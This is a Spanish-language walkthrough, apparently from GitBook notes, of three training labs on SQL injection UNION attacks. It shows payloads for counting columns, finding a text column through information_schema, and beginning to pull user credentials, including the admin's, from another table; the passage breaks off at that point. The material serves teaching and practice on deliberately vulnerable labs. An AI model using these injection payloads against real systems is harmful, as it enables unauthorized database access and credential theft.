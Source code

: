 <figure><img src="../.gitbook/assets/sql3.png" alt=""><figcaption></figcaption></figure>

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

En este caso te dice que tienes que rellenar todas las columnas de `NULL`, por lo que haremos lo siguiente...

Veremos cuantas columnas tiene...

```mysql
' order by 3-- -
```

Con esto sabemos que si ponemos `4` ya nos devuelve un error, por lo que son `3`...

```mysql
' union select NULL,NULL,NULL-- -
```

Y si ponemos eso, ya habriamos rellenado las 3 columnas que hay de `NULL` por lo que ya lo tendriamos resuelto...

### Lab: SQL injection UNION attack, finding a column containing text

En este caso lo que hay que hacer es poner la cadena `qnUgvU` en la columna que sea inyectable, para ver eso tendremos que ver lo siguiente...

```mysql
' union select NULL,schema_name,NULL from information_schema.schemata-- -
```

Con esto sabemos que el `NULL` del medio es inyectable, por lo que haremos lo siguiente...

```mysql
' union select NULL,'qnUgvU',NULL-- -
```

Y hecho esto ya lo habriamos resuelto...

### Lab: SQL injection UNION attack, retrieving data from other tables

Aqui lo que necesitamos es obtener la informacion de la tabla de `usuarios` para ver las credenciales de todos los `usuarios` incluyendo el de `admin` para poder registrarnos con el mismo...

```mysql
' union select NULL,NULL-- -
```
